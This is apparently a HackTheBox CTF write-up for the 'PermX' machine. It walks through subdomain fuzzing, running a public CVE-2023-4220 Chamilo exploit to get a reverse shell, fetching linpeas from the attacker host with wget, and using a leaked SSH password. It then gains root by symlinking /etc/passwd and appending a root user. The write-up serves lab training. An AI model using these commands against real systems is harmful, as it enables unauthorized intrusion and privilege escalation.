 ```yaml
---
title: PermX - HackTheBox Write-Up
date: 2024-09-28
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
---
```

![Image 0](./0.webp)
Hello👋 Today we're going to take a look at [PermX](./https://www.hackthebox.com/machines/permx) machine on HackTheBox by mtzsec. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] permx.htb
```

### Enumeration
We'll start by scanning for open ports with Nmap.
![Screenshot 1](./1.webp)

We get port 80 and 22, which means there is a website running. There is nothing much of interest on the homepage.
![Screenshot 2](./2.webp)

So let's try to see if there are any interesting directories, we'll use Gobuster for that.
```bash
gobuster dir -u http://permx.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![Screenshot 3](./3.webp)

Hmmm. Let's try to find some subdomains with ffuf.
```bash
ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 18
```
![Screenshot 4](./4.webp)

And we got something. Let's try checking ```lms.permx.htb``` out. Remember to first add it to our ```/etc/hosts```.
![Screenshot 5](./5.webp)

### Getting Access
We now know that the website uses Chamilo. Let's try do a quick search on any exploits on Chamilo. And we find **CVE-2023-4220** and a exploit script:

[https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](./https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)
```bash
git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
cd chamilo-lms-unauthenticated-big-upload-rce-poc
pip install -r requirements.txt
```
Set up a listener with ```nc -lvnp 443``` and then we can run the main.py.
```bash
python3 main.py -u http://lms.permx.htb -a revshell
```
![Screenshot 6](./6.webp)
![Screenshot 7](./7.webp)

And we get a shell! Now we want to run [linpeas](./https://github.com/peass-ng/PEASS-ng/releases) to find any vulnerbilities, so let's start a http server with python on our attacker machine.
```bash 
python -m http.server
```
In our shell we run.
```bash
wget http://10.10.14.34:8000/linpeas.sh
```
![Screenshot 8](./8.webp)
![Screenshot 9](./9.webp)

We get a password from the configuration.php. Now we only need the username to be able to ssh. Which we see is ```mtz``` by going to the home directory.

![Screenshot 10](./10.webp)

Let's ssh into ```mtz``` with the password ```03F6lY3uXAP2bkW8```
![Screenshot 11](./11.webp)

And we get our first flag!

![Screenshot 12](./12.webp)

### Privilege Escalation
We start by running ```sudo -l``` and we se that we can run ```/opt/acl.sh``` as root.
![Screenshot 13](./13.webp)
Let's take a look at ```/opt/acl.sh```.
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script lets the user ```mtz``` change file permissions for any user, but only for files in the ```/home/mtz``` directory. It also blocks us from using path traversal.

What we can do is make a symlink to the ```/etc/passwd``` inside the ```/home/mtz``` and then add a privileged user.

So we first have to generate a password hash.

![Screenshot 14](./14.webp)
```bash
mkdir /tmp
cd /tmp
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rwx /home/mtz/tmp/passwd
echo 'printn:$1$IeeL.gZ3$gs5hdreEStMsIs6wN.lVn0:0:0:root:/root:/bin/bash' >> /home/mtz/tmp/passwd
```
After running the commands above our user should now be added to the ```/etc/passwd```. Now we can just ```su printn``` with the password ```printn```.

And we get root. We can now get the last flag 🥳 

![Screenshot 15](./15.webp)